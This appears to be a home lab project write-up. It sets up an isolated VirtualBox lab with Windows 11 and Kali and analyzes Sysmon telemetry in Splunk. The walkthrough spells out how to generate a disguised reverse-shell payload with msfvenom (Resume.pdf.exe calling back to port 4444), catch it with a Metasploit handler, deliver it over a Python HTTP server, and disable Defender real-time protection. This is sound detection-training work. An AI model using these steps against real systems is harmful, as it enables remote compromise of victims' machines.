


## Cybersecurity Home Lab Setup and Threat Telemetry Analysis

### Objective

The objective of this project was to architect and deploy a robust, virtualized home lab environment to serve as a secure, segmented sandbox for advanced cybersecurity practice. The core goal was to install and configure a **Type-2 hypervisor** to host a current target machine (**Windows 11 Pro**) and an attacker machine (**Kali Linux**), while specifically focusing on **Detection Engineering** by:

* **Isolating the lab network** completely using internal virtual networking to prevent host machine compromise.
* Deploying an advanced logging agent (**Sysmon**) and a **Security Information and Event Management (SIEM)** platform (**Splunk**) to collect high-fidelity security telemetry.
* Simulating basic attacker Tactics, Techniques, and Procedures (**TTPs**) to generate relevant log data and practice **analyzing the full attack chain** within the SIEM environment.

---

### Skills Learned

**I. Infrastructure & Systems Administration:**
* **Virtualization Management:** Deployed and configured **Oracle VirtualBox** to host multiple guest operating systems, effectively managing hypervisor settings and resource allocation.
* **OS Provisioning & Customization:** Performed manual installation of the **Windows 11 Pro ISO** and imported pre-configured virtual appliances (**Kali Linux**).
* **Low-Level System Configuration:** Successfully bypassed mandatory Windows 11 hardware requirements (**TPM, Secure Boot**) within the VM environment by executing commands and/or making **Registry modifications** during the setup process.
* **File Integrity Verification:** Utilized cryptographic hashing (**SHA-256**) via **Windows PowerShell** (`Get-FileHash`) to verify the integrity and authenticity of software installers before execution.
* **Snapshot & Disaster Recovery:** Implemented **snapshot strategies** to create "known good" baselines, allowing for rapid system restoration after destructive testing or malware execution.

**II. Network Architecture & Isolation (Sandboxing):**
* **Network Segmentation:** Configured VM network adapters to use **Internal Network** mode (VirtualBox) or **LAN Segment** (VMware), ensuring complete network isolation from the host and production network.
* **Static IP Configuration:** Performed manual **static IPv4 address assignment** on both Windows and Kali Linux guests, providing reliable, controlled communication exclusively between the lab machines.

**III. Detection Engineering (Blue Team):**
* **Endpoint Logging:** Installed and configured **Sysmon** on the Windows target machine to generate rich security telemetry (Process Creation, Network Connections, etc.).
* **SIEM Administration:** Deployed and configured **Splunk Enterprise** to ingest Sysmon event logs by setting up appropriate indices and using the **Splunk Add-on for Sysmon**.
* **Threat Analysis & Querying:** Performed log analysis via **Splunk Search Processing Language (SPL)** to trace the simulated attack chain, identifying malware process execution, outbound connections, and post-exploitation commands.

**IV. Threat Simulation (Red Team):**
* **Reconnaissance:** Employed **nmap** for basic network service identification and port scanning against the target system.
* **Exploitation Tooling:** Utilized **msfvenom** to generate a reverse TCP shell payload and **Metasploit Framework (msfconsole)** to set up a listening handler to catch the shell.
* **Delivery Simulation:** Used a **Python HTTP server** to simulate a basic delivery mechanism for the malware payload.

---

### Tools Used

**Virtualization Stack:**
* **Oracle VirtualBox 7.0** (Type-2 Hypervisor)
* **Windows 11 Pro** (Target OS)
* **Kali Linux** (Attacker OS)

**SIEM & Logging:**
* **Splunk Enterprise** (SIEM Platform)
* **Sysmon** (Windows Endpoint Logger)
* **Splunk Add-on for Sysmon** (Log Parsing)

**Offensive Tools:**
* **nmap** (Network Scanner)
* **msfvenom** (Payload Generation)
* **Metasploit Framework (msfconsole)** (Handler/Listener)

**Core Utilities:**
* **Windows PowerShell** (`Get-FileHash`, `ipconfig`)
* **Windows Registry Editor (regedit)**
* **7-Zip** (File Archiving)
* **Python 3** (`http.server` module)

---

### Network Architecture Diagram


---

### Key Results
**Suspicious Network Activity**

- IP address `192.168.20.11` attempts to reach port **4444**, which is commonly used for Metasploit reverse shells or C2 channels.  
- Actions to take:  
  1. Verify the source system.  
  2. Scan the system for malware.  
  3. Block port 4444 if not intended.  
  4. Monitor network logs for further suspicious activity.  

**Suspicious Parent/Child Process Execution**

- The parent process `resume.pdf.exe` is suspicious — PDFs are never `.exe` files.  
- Located in the Downloads folder, typical for malware payloads.  
- The child process `WerFault.exe` is legitimate, but here it is spawned unusually by the malicious executable.  
- Command line arguments (`WerFault.exe -u -p 1052 -s 432`) are normal for Windows Error Reporting, but the context indicates malware activity.  
- **Conclusion:** `resume.pdf.exe` is malware attempting to execute and blend in with normal system processes.

---

### Full Walkthrough

For the complete step-by-step guide (including all screenshots), see:
[Full Walkthrough Documentation](docs/full-walkthrough.md)

---

### Future Improvements
To expand the scope of this lab and transition it into a more realistic representation of an enterprise monitoring environment, the following improvements are planned:

#### I. Advanced Detection and Automation 🤖

* **Custom Correlation Rules:** Develop specific, high-fidelity alerts within Splunk that trigger when a sequence of suspicious events occurs (e.g., a process execution followed immediately by a network connection to an unknown external IP).
    * *Goal:* Reduce alert fatigue by creating rules based on confirmed **Tactics, Techniques, and Procedures (TTPs)** rather than single events.
* **Dashboard Development:** Build a dedicated **Threat Triage Dashboard** in Splunk to visualize key Sysmon data (Process, Network, File activity) and facilitate rapid, efficient incident review.
* **MITRE ATT&CK Mapping:** Map all simulated attacker actions (e.g., Execution, Command and Control) to the appropriate **MITRE ATT&CK Framework** techniques to build a structured defense plan.

#### II. Network and External Telemetry 🌐

* **Introduce Network Security Monitoring (NSM):** Integrate a dedicated open-source NSM tool like **Security Onion** or **Suricata/Zeek** on a separate VM.
* **Layered Logging:** Begin ingesting network flow logs and Intrusion Detection System (IDS) alerts alongside the host-based Sysmon data. This will allow for true **defense-in-depth** analysis by cross-validating endpoint telemetry with network traffic.

#### III. Expanded Threat Simulation & Complexity 📈

* **Simulate Persistence:** Conduct new simulations targeting persistence mechanisms, such as modifying the Windows Registry (**Run Keys**) or creating scheduled tasks. Analyze the resulting **Sysmon Registry EventCodes (12, 13, 14)** to build targeted registry monitoring rules.
* **Credential Theft Simulation:** Utilize tools like Mimikatz (safely within the isolated lab) to simulate credential dumping and focus on detecting the suspicious process access events that precede successful theft.

---

### Conclusion

This project successfully achieved its core objective: deploying a fully isolated, instrumented home lab capable of high-fidelity threat detection and analysis. The work confirmed proficiency across several critical domains relevant to a Security Operations Center (SOC) role:

* **Detection Engineering Proficiency:** Successfully deployed and integrated industry-standard host logging (**Sysmon**) with a leading **SIEM** platform (**Splunk**), demonstrating the ability to establish and maintain an effective security monitoring infrastructure.
* **Log Triage & Incident Analysis:** Used **Splunk Search Processing Language (SPL)** to efficiently triage logs, specifically isolating and analyzing the attack chain's most critical event (**Process Creation, EventCode 1**).
* **Critical Thinking & Anomaly Detection:** The analysis went beyond simple alert confirmation. It identified the **anomalous behavior** of the malicious `resume.pdf.exe` spawning the legitimate **`WerFault.exe`** (Windows Error Reporting). This demonstrated the ability to detect subtle **Indicators of Compromise (IOCs)** and understand common attacker techniques (e.g., using a crash to obscure execution), a core competency for SOC Analysts.
* **Systems and Network Hardening:** Established a secure, segmented lab environment (192.168.20.0/24), showcasing practical systems administration and network isolation skills crucial for safe, repeatable threat testing.

***

## Conclusion

This project successfully achieved its core objective: deploying a fully isolated, instrumented home lab capable of high-fidelity threat detection and analysis. The work confirmed proficiency across several critical domains relevant to a Security Operations Center (SOC) role:

* **Detection Engineering Proficiency:** Successfully deployed and integrated industry-standard host logging (**Sysmon**) with a leading **SIEM** platform (**Splunk**), demonstrating the ability to establish and maintain an effective security monitoring infrastructure.
* **Log Triage & Incident Analysis:** Used **Splunk Search Processing Language (SPL)** to efficiently triage logs, specifically isolating and analyzing the attack chain's most critical event (**Process Creation, EventCode 1**).
* **Critical Thinking & Anomaly Detection:** The analysis went beyond simple alert confirmation. It identified the **anomalous behavior** of the malicious `resume.pdf.exe` spawning the legitimate **`WerFault.exe`** (Windows Error Reporting). This demonstrated the ability to detect subtle **Indicators of Compromise (IOCs)** and understand common attacker techniques (e.g., using a crash to obscure execution), a core competency for SOC Analysts.
* **Systems and Network Hardening:** Established a secure, segmented lab environment (192.168.20.0/24), showcasing practical systems administration and network isolation skills crucial for safe, repeatable threat testing.

***

## Future Improvements

To expand the scope of this lab and transition it into a more realistic representation of an enterprise monitoring environment, the following improvements are planned:

#### I. Advanced Detection and Automation 🤖

* **Custom Correlation Rules:** Develop specific, high-fidelity alerts within Splunk that trigger when a sequence of suspicious events occurs (e.g., a process execution followed immediately by a network connection to an unknown external IP).
    * *Goal:* Reduce alert fatigue by creating rules based on confirmed **Tactics, Techniques, and Procedures (TTPs)** rather than single events.
* **Dashboard Development:** Build a dedicated **Threat Triage Dashboard** in Splunk to visualize key Sysmon data (Process, Network, File activity) and facilitate rapid, efficient incident review.
* **MITRE ATT&CK Mapping:** Map all simulated attacker actions (e.g., Execution, Command and Control) to the appropriate **MITRE ATT&CK Framework** techniques to build a structured defense plan.

#### II. Network and External Telemetry 🌐

* **Introduce Network Security Monitoring (NSM):** Integrate a dedicated open-source NSM tool like **Security Onion** or **Suricata/Zeek** on a separate VM.
* **Layered Logging:** Begin ingesting network flow logs and Intrusion Detection System (IDS) alerts alongside the host-based Sysmon data. This will allow for true **defense-in-depth** analysis by cross-validating endpoint telemetry with network traffic.

#### III. Expanded Threat Simulation & Complexity 📈

* **Simulate Persistence:** Conduct new simulations targeting persistence mechanisms, such as modifying the Windows Registry (**Run Keys**) or creating scheduled tasks. Analyze the resulting **Sysmon Registry EventCodes (12, 13, 14)** to build targeted registry monitoring rules.
* **Credential Theft Simulation:** Utilize tools like Mimikatz (safely within the isolated lab) to simulate credential dumping and focus on detecting the suspicious process access events that precede successful theft.

#### Directory 

1. [Installing VirtualBox](#installing-virtualbox)
2. [Installing Windows ISO Image](#installing-windows-iso-image)
3. [Installing 7-Zip](#installing-7-zip)
4. [Installing Kali Linux VM](#installing-kali-linux-vm)
5. [Importing Windows 11 ISO to VirtualBox](#importing-windows-11-iso-to-virtualbox)
6. [Running Windows Without a Microsoft Account](#running-windows-without-a-microsoft-account)
7. [Import Kali Linux to VirtualBox](#import-kali-linux-to-virtualbox)
8. [Creating Snapshots to revert to baseline config](#creating-snapshots-to-revert-to-baseline-config)
9. [Configuring VMs Based On Use Case Scenario](#configuring-vms-based-on-use-case-scenario)
10. [Scenario 1: Testing Tools That Require Internet Connectivity](#scenario-1-testing-tools-that-require-internet-connectivity)
11. [Scenario 2: Analyzing Malware Recommended Settings](#scenario-2-analyzing-malware-recommended-settings)
12. [Network Configuration For Both VMs](#network-configuration-for-both-vms)
13. [Installing Splunk On Windows 11 Pro VM](#installing-splunk-on-windows-11-pro-vm)
14. [Configuring Splunk To Ingest Sysmon Logs](#configuring-splunk-to-ingest-sysmon-logs)
15. [Creating and Using Malware To Test and Analyze Splunk and Sysmon Telemetry](#creating-and-using-malware-to-test-and-analyze-splunk-and-sysmon-telemetry)

#### Installing VirtualBox
Step 1: Head to https://www.virtualbox.org/wiki/Downloads and click download. 

Step 1.2: Choose the operating system you are using… in my case Windows. 

Step 2.1: Compare Hash values to verify integrity of installer. 

Step 2.2: Find the VirtualBox version of what you downloaded inside the checksum list. In my case “VirtualBox-7.2.4-170995-Win.exe”  

Step 2.3: Go to where you downloaded the file > Right Click > Then click “Open in Terminal”  


Step2.4: This will open up powershell and in powershell type command.
```PowerShell
Get-FileHash .\VirtualBox-7.2.4-170995-Win.exe
```
Then press enter.
Note: “VirtualBox-7.2.4-170995-Win.exe” is my file name yours might be different

Step 2.5: Double click the generated hash to copy it  

Step 2.6: Return to virtualbox checksum list > do ctrl+F > paste in the hash value in powershell from the last step  

Step 2.7: If the same hash value shows the file is not tampered with thus verifying integrity.

Step 3: Initialize installation.


#### Installing Windows ISO Image
Step 1: Go to https://www.microsoft.com/en-us/software-download/windows11 > Create Windows 11 Installation Media > Download 

Step 2: Initialize Installer 


#### Installing 7-Zip
Step 1: go to https://www.7-zip.org/ > Choose appropriate  bit type that corresponds to your system (eg. 64-bit vs 32-bit) .


Step 2: Initialize Installer 


#### Installing Kali Linux VM
Step 1: Go to https://www.kali.org/get-kali/#kali-virtual-machines > VirtualBox Download  

Step 2: Once installed right click installed file, more options > 7zip, Extract File here        


#### Importing Windows 11 ISO to VirtualBox
Step 1: Run VirtualBox
Step 2: Click New  

Step 3: Name VM whatever you want, Pick a Folder location to Place it In, ISO Image = “Windows.ISO” that we created earlier  

Step 4: Allocate Necessary system resources, Base Memory = 4096mb, CPU = 1, Disk Size = 20Gb    


Step 5: Power on Win 11 VM  

Step 6: Initialize Windows 11 Installer


Step 6.1: If you get this screen we have to bypass requirements safely via a VM
Step 6.2: press Shift + F10 > Type “regedit”  

Step 6.3: Navigate to HKEY_LOCAL_MACHINE\SYSTEM\Setup 

Step 6.4: Right Click “Setup” Folder > New  > Key > Name = “LabConfig”  

Step 6.5: On the right > Right click > new > Create 4 DWORD (32-bit) Value 

Step 6.6: Name them BypassTPMCheck = 1, BypassRAMCheck = 1, BypassSecureBootCheck = 1, BypassCPUCheck = 1   


Step 6.7: Try installing Windows 11 Pro again    


#### Running Windows Without a Microsoft Account
Step 1 After you reach this screen unplug network connection 

Step 2 on bottom right > Right Click Network Icon > Network Settings 

Step 3: Attach to from “Nat” to “Not Attached”  

Step 4: Restart VM and go back to Setup page


#### Import Kali Linux to VirtualBox
Step 1: Navigate to the folder where you extracted the Kali Linux zip 


Step 2: Double  click on the folder  Double click the “.vbox” extension 


Step 3: VirtualBox opens up automatically and puts in Kali Linux for you 


Step 4 : Power on Kali Linux VM Step 5: User = kali pw = kali  

Step 5: User = kali pw = kali


#### Creating Snapshots to revert to baseline config
Step 1: Click on intended VM > Snapshots > on top right, click take  


Step 2: Name the snapshot to your preference    


#### Configuring VMs Based On Use Case Scenario
Step 1: Before we start configuring our VMs we must know what each network settings on VirtualBox do so we know which one to use based on any lab scenario you might test.  
 
NAT: Default mode; VM accesses the internet through the host (safe, isolated).


Bridged Adapter: VM appears as a device on the same network as the host.  


Internal Network: VMs can communicate only with each other (no host or internet access).  


Host-only Adapter: VM communicates only with the host machine and other host-only VMs.  


Generic Driver: Advanced/custom networking via external drivers.

NAT Network: Similar to NAT but allows multiple VMs on the same internal NATed subnet.  


Cloud Network (Experimental): Connects VM to cloud-based virtual networks (testing feature).
Not Attached: No network connection; VM sees no network hardware.  


#### Scenario 1: Testing Tools That Require Internet Connectivity
Step 1: This is simple. Use NAT and default settings for you Win11 Pro and Kali Linux VM in VirtualBox.    


Step 2: Repeat the same step into Kali Linux VM to “NAT”. It should be NAT already by default.

#### Scenario 2: Analyzing Malware Recommended Settings
Step 1: I recommend using the “Not attached” or “Internal Network” if the malware we are testing requires internet connectivity. Again, not attached means there is no internet connectivity and Internal Network means only VMs can communicate with each other not the host. Please refer to each diagram in “Configure VMs based on use case” section for a visual aid.   


Step 2: Change Network name to “Test” or any name you prefer then hit ok.


  Step 3: Repeat the same step and change the Kali Linux VM to Internal Network and using the “Test” network we created in the previous steps.  


#### Network Configuration For Both VMs 
Step 1: Assign static IP addresses for Win11 Pro VM. Power on VM.  


Step 1.1: Hover on the globe icon at the bottom right and right click. Then click on “Network and Internet Settings”  


Step 1.2: Click on “Ethernet”  


Step 1.3: click IP assignment, “Edit”  


Step 1.4: Switch from “DHCP” to “Manual”  


Step 1.5: Turn on “IPv4” and input IP address = 192.168.20.10, Subnet Mask = /24 or 255.255.255.0 then click save. We will leave gateway and dns blank for now since it’s a simple lab environment.  


Step 1.6: Lets verify our configuartion changes by going to command prompt and typing command “ipconfig”  


Step 1.7: We need to allow ICMP ping request so Kali Linux VM can ping Win 11 Pro VM. Search “Windows Defender Firewall with Advanced Security”.  


Step 1.8: Go to Inbound Rules > Scroll and find “2 of File and Print Sharing (Echo Request – ICMPv4-In), then ctrl click both to select both, then right click both then, “Enable Rule”  


Step 1.9: There should be a green check mark on both.
 

Step 2: Assign static IP addresses for Kali Linux VM. Power on VM. Again user = kali pw =kali  


Step 2.1: Right click Network Icon on top right corner > Click Edit Connections  


Step 2.2: Select “Wired Connection” then click Gear icon on bottom left corner  


Step 2.3: Go to “IPv4 Settings” Tab > Change Method from “DHCP” to “Manual”, click Add then type in “192.168.20.11, Netmask = /24 then click save.  


Step 2.4: Verify network configuration by right clicking on desktop screen > Open Terminal  


Step 2.5: Type in command “ifconfig” and verify “inet” is “192.168.20.11” and “netmask” is “255.255.255.0” that is /24.


Step 3: Lets verify connectivity by pinging from both VMs.

Step 3.1: Ping 192.168.20.10(Win11 Pro VM) from 192.168.20.11(Kali VM). Go to terminal > type command “ping 192.168.20.10”. Success. 


Step 3.2: Ping 192.168.20.11(Kali VM) from 192.168.20.10(Win11 Pro VM). Go to Command Prompt > Type command “Ping 192.168.20.11”. Success.  


#### Installing Splunk On Windows 11 Pro VM
Step 1: Head over to https://www.splunk.com/en_us/download/splunk-enterprise.html. Create an account for a free download.  


Step 2: Create a free account then proceed to the download page. Download for the OS you are running. In my case for Windows.


Step 3: Initialize Splunk Installer        


Step 4: Login to Splunk Account 


Step 5: Lets demo and explore Splunk by adding some data! From the home page click “add data”  


Step 6: Scroll Down and click “Monitor” 


Step 7: click on “Local Event Logs” and choose which event logs you want to monitor. I will choose Application, Security, and system but you are free to choose based on use case. I am just showing one of the many things you can do with Splunk.  


Step 8: once you click next change “Index” from “Default” from “Main”. Main should be the deafult but just making sure we choose “main”.  


Step 9: Click “Review” then hit Submit 


Step 10: Click Start Searching 


Step 11: Now we can start analyzing specific events!  


Step 12: For example. We can search up a specific Event Code and correlate that to a specific event by simply searching up the event code.
 


#### Installing Sysmon 
Step 1: Head to https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon. Then click download based on your OS platform.


Step 2: Now lets install the configuration files. Head to https://github.com/olafhartong/sysmon-modular/blob/master/sysmonconfig.xml. Then click “Raw”  


Step 3: Right click + Save as any location you want.  


Step 4: Lets go back to the sysmon zip we downloaded before and extract all of its contents by right clicking the folder and clicking “Extract All”.    


Step 5: Open a Powershell window with run as admin.    


Step 6: Copy file path where you extracted the files to by going to search bar, highlight, right click + copy.  


Step 7: type in “cd ‘right + click’ on Powershell then press enter. This command moves you to the directory of the copied file path.   


Step 8: Move the config files to the sysmon folder we extracted.  


Step 9: [Option 1] lets install sysmon by typing in command “.\Sysmon64.exe” + enter while in the directory of the sysmon folder. I chose 64 because I am running a 64-bit system.  


Step 10: [Option 2] lets install sysmon by using the config file to install it. Type in command “.\sysmon64.exe -i sysmonconfig.xml + Enter” in Powershell. Make sure you are in the directory of the sysmon folder.  


Step 11: Lets check if Sysmon installed properly by going to search “Event Viewer”. 


Step 12: Expand App and Services Logs > Microsoft > Windows, then look for “Sysmon”. 


Step 13: Lets check if Sysmon is in services by searching “Services”.   


Step 14: Back to Event Viewer… Now we can go on Sysmon > Operational and view a bunch of useful telematry!  


#### Configuring Splunk To Ingest Sysmon Logs
Step 1: Download the custom “inputs.conf” file at https://tinyurl.com/MyDFIR-Splunk-Inputs. This custom input configures splunk to ingest sysmon logs.  


Step 2: Lets place the “inputs.conf” file that we downloaded to the right place. Go to File Explorer > This PC > Local disk > program files > Splunk > etc > system > local       


Step 3: Copy the “inputs.conf” file that we downloaded here.  


Step 3.1: Restart Splunk Service. Search “Services” > Find “Splunkd Service” > Right click, Restart.   


Step 4: Create an index called “Endpoint” so our custom “inputs.conf” file works. Basically this transfers logs from sysmon/Operational to splunk index. Open up Splunk from the home page go on settings > New Index, Name = endpoint, save.    


Step 5: Let’s verify if Splunk is ingesting Sysmon logs. Now go on App > search & reporting > search = “index=endpoint” press enter   


Step 6: Lets make sure that Sysmon parses automatically to splunk by downloading an app in Splunk. Go to App > Find More apps > Search = “Sysmon” > Install “Splunk Add-on for Sysmon. 


Step 7: This should add additional field when searching “index=endpoint”.  


#### Creating and Using Malware To Test and Analyze Splunk and Sysmon Telemetry
Step 1: Make sure to use “Internal Network” Settings for Windows 11 Pro and Kali Linux VM. 


Step 2: Verify Win11 Pro VM and Kali VM are on the same network and have the appropriate IP addressing.


Step 3: Keep both IP addresses in mind. Win11 = 192.168.20.10 & Kali = 192.168.20.11
Step 4: Lets get started with NMAP by viewing the available commands. In the terminal do command “nmap -h”.  There are plenty of useful commands to use. For example “-A” will do a full scan aand adding a -Pn will skip pings.


Step 5: Lets do command “nmap -A 192.168.20.10 -Pn” to scan our Windows 11 VM and skipping ping to see what information we receive from the Win 11 VM.   


Step 5.1: Lets create our malware using msfvenom. Do command “msfvenom + enter” in terminal.   


Step 6: Lets see the available payloads we have by doing command “msfvenom -l payloads”. There will be plenty listed but we are using the “windows/x64/meterpreter/reverse_tcp” payload. Take note of  “windows/x64/meterpreter/reverse_tcp” since that is the one we will use. 


Step 7: Lets start by building out our malware. Do command “msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.20.11 lport=4444 -f exe -o Resume.pdf.exe + enter”. This command will generate malware using reverse tcp payload which is instructed to connect back to our kali machine and port. The file format will be .exe and file name is Resume.pdf.exe.  


Step 8: Type command “ls” to verify that the file was created and type command “file Resume.pdf.exe” to check what file it is.


Step 9: Now that we have our binary lets open up a handler that will listen in on the port that we have configured by using metasploit. Do command “msfconsole + enter” > “use exploit/multi/handler + enter”  


Step 10: do command “options” to see what we can configure. Notice that the payload option is set to “generic/shell_reverse_tcp” we need to use the same payload we used when configuring our malware in msfvenom. 


Step 11: lets change it. Do command “Set payload windows/x64/meterpreter/reverse_tcp + enter” then type command “options” again to verify the change.  


Step 12: Lets configure “LHOST” to correspond to our attacker machine (Kali) by doing command “set lhost 192.168.20.11 + enter” then command “options” to verify change.


Step 13: Lets start this handler by doing command “exploit + enter”. Now we wait until the malware is executed in the Win 11 VM.


Step 14: We need to create a fast http server using python so we can import our malware to the Win 11 VM. Click on “Session, New Tab” to open up a new tab. Make sure we are in the same directory as our malware by doing command “ls”.   


Step 15: Lets create the server. Do command “python3 -m http.server 9999 + enter”. After pressing enter the server is now live and hosting the malware file “Resume.pdf.exe”. 


Step 16: Lets switch over to our Win 11 Pro VM. First we need to turn off real time detection on Windows Security. Again we created a simple malware. Our main goal is to test Splunk and Sysmon when malware is executed. Search “Windows Security” > Virus & Threat protection > Virus & Threat protection settings > manage settings > turn off “Real-time protection”.


Step 17: Let's go to the python server we created by opening up a browser > search = 192.168.20.11:9999 + enter”. The ip address is the kali machine on port 9999. Download “Resume.pdf.exe”.  


Step 18: Let's execute the malware. Open “Resume.pdf.exe”  > click “Run” 


Step 19: Lets return to the Splunk home page to see what useful telemetry we generated. Go to app > Search & Reporting > Search = “index=endpoint 192.168.20.11 + enter”. Lets first check what telemetry shows when we search up our kali machine ip of 192.168.20.11.    


Step 20: Scroll down until you see “dest_port” then click on it  


Step 21: This telematry tells us that ip 192.168.20.11 is attempting to reach port 4444. Port 4444 is commonly used by metasploit default payloads and other malware/command-and-control channels. For security context, if a machine is trying to reach port 4444 it may indicate an attempted reverse shell or remote exploitation attempt. Necessary actions to take next is to verify the source, check system for malware, set up firewall rules to block port 4444 if its not intended, and monitor network logs.
Step 22: Lets look at more telemetry. But this time lets search the malware name that was executed by typing in “index=endpoint resume.pdf.exe + enter”.   


Step 23: As you can see we have logged 303 events. Scroll down until you see “EventCode” then click on it.  


Step 24: Lets focus on event code 1.


Step 25: We can see that event code 1 logged 30 events. Click on the latest event and expand it. Then scroll down and until you see “ProcessGuid”   


Step 26: Copy and paste the “ProcessGuid” value into search bar so its “index=endpoint {ProcessGuidValue} + Enter” 


Step 27: 5 events is logged. Lets clean up the search query by adding in |table _time,ParentImage,Image,CommandLine after the “ProcessGuid”. So its “index=endpoint {ProccessGuid} |table _time,ParentImage,Image,CommandLine + enter”.    


Step 28: Lets analyze the ParentImage, Image, and CommandLine. Parent process “resume.pdf.exe” is suspicious because pdfs are never .exes. We can conclude that this is malware disguised as a pdf file. It was located in downloads which is common for malicious payloads. Child process “WerFault.exe” is a legitimate windows error reporting executable. However, it is suspicious because “resume.pdf.exe” spawned “WerFault.exe” which is not normal behavior. WerFault is usually triggered when covering up a crash it caused, run malicious code before or after a crash, and blending in with normal system process. Command line arguments “WerFault.exe -u -p 1052 -s 432” parameters are legitimate because Windows Error Reporting launches like this when a process crashes. In summary, malware “resume.pdf.exe” crashed, and WerFault was triggered to report it.


  


 


 


  
